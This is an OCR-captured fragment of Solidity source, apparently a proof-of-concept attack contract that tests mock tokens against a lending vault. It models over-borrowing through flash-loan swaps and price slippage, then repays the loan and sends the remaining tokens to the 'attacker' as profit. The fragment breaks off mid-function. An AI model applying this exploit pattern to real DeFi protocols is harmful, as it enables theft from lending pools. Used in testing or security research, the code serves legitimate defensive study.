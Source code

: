 ```solidity
        vault.liquidate(wasp);
        _finalize(tokenA, loanAmount);
    }

    /// @dev Scenario 1: Over-borrow fails due to AMM slippage
    function _scenarioOverBorrowFail(uint256 loanAmount, address /*wasp*/ ) internal {
        // Swap TokenA → TokenB; slippage reduces collateral value, over-borrow fails to repay loan
        tokenA.approve(address(pym), loanAmount);
        pym.swapExactAForB(loanAmount, address(this));
        _tryOverBorrow();
        _finalize(tokenA, loanAmount);
    }

    /// @dev Scenario 2: Over-borrow succeeds by using TokenB flash-loan
    function _scenarioOverBorrowSuccess(uint256 loanAmount, address /*wasp*/ ) internal {
        // Borrow TokenB instead of TokenA → avoids slippage trap, over-borrow succeeds
        tokenB.approve(address(pym), loanAmount);
        pym.swapExactBForA(loanAmount, address(this));
        _tryOverBorrow();
        _finalize(tokenB, loanAmount);
    }

    /// @dev Attempt over-borrow from vault using current collateral
    function _tryOverBorrow() internal {
        uint256 tokenAAfter = tokenA.balanceOf(address(this));
        if (tokenAAfter > 0) {
            tokenA.approve(address(vault), tokenAAfter);
            vault.depositCollateral(tokenAAfter);
            uint256 price = pym.getPymPrice(address(tokenA), address(tokenB));
            uint256 maxBorrow = (((tokenAAfter * price) / 1e18) * 50) / 100; // LTV 50%
            vault.borrow(maxBorrow);
        }
    }

    /// @dev Swap back tokens if needed and repay flash-loan
    function _finalize(MockERC20 loanToken, uint256 loanAmount) internal {
        if (address(loanToken) == address(tokenA)) {
            _swapBackAndRepay(tokenB, tokenA, loanAmount);
        } else if (address(loanToken) == address(tokenB)) {
            _swapBackAndRepay(tokenA, tokenB, loanAmount);
        }

        // Send remaining TokenB as profit to attacker
        uint256 profitB = tokenB.balanceOf(address(this));
        if (profitB > 0) {
            tokenB.transfer(owner, profitB);
        }
    }

    /// @dev Swaps enough tokens back to repay the flash-loan.
    /// @notice This function uses a binary search to find the minimum
    /// input amount needed to swap and generate enough output tokens
    /// to cover the flash-loan repayment. This optimizes the attacker's profit
    /// by minimizing slippage on the return swap.
    function _swapBackAndRepay(MockERC20 swapFrom, MockERC20 repayToken, uint256 loanAmount) internal {
        uint256 repayAmount = loanAmount;
        uint256 repayBalance = repayToken.balanceOf(address(this));

        if (repayBalance < repayAmount) {
            uint256 needed = repayAmount - repayBalance;
            uint256 swapBalance = swapFrom.balanceOf(address(this));

```
